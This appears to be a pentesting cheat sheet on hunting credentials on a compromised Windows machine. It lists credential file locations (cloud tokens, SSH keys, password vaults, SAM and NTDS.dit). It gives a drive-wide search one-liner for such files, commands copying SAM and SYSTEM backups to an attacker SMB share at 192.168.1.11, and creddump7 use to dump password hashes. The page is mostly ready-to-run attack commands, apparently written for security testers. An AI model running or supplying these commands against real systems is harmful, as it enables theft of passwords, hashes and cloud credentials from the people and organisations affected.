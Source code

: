 some of the interesting directories/files in windows:

```
unattend.xml
Unattended.xml
sysprep.inf
sysprep.xml
VARIABLES.DAT
setupinfo
setupinfo.bak
web.config
SiteList.xml
.aws\credentials
.azure\accessTokens.json
.azure\azureProfile.json
gcloud\credentials.db
gcloud\legacy_credentials
gcloud\access_tokens.db
```

one-liner to check for credentials in all files

```
cd C:\
dir /s/b /A:-D RDCMan.settings == *.rdg == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == access_tokens.db == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == tomcat-users.xml == web.config == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == security == software == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == https-xampp.conf == my.ini == my.cnf == access.log == error.log == server.xml == ConsoleHost_history.txt == pagefile.sys == NetSetup.log == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == ntuser.dat == index.dat == bash.exe == wsl.exe 2>nul | findstr /v ".dll"
```

### <mark style="color:orange;">SAM and SYSTEM backups</mark>

The SAM and SYSTEM files are located in the C:\Windows\System32\config directory. The files are locked while Windows is running. Backups of the files may exist in the C:\Windows\Repair or C:\Windows\System32\config\RegBack directories.

if you find any backup files copy them to the attacker machine and use creddump7 to dump the hashes from SAM database:

```
copy C:\Windows\Repair\SAM \\192.168.1.11\tools\
copy C:\Windows\Repair\SYSTEM \\192.168.1.11\tools\

git clone https://github.com/Neohapsis/creddump7.git

python2 creddump7/pwdump.py SYSTEM SAM
```
